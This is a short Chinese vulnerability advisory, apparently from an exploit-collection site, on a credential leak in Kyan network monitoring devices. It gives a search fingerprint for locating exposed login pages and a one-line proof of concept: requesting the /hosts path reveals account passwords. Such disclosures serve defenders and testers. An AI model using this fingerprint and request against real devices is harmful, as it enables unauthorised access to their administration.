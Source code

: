 # Kyan 网络监控设备 hosts 账号密码泄露漏洞

## 漏洞描述

Kyan 网络监控设备 存在账号密码泄露漏洞，攻击者通过漏洞可以获得账号密码和后台权限

## 漏洞影响

<a-checkbox checked>Kyan</a-checkbox></br>

## 网络测绘

<a-checkbox checked>title="platform - Login"</a-checkbox></br>

## 漏洞复现

登录页面如下

![img](../../../.vuepress/public/img/ky-1.png)



POC

```plain
http://xxx.xxx.xxx.xxx/hosts
```



![img](../../../.vuepress/public/img/ky-2.png)



成功获得账号密码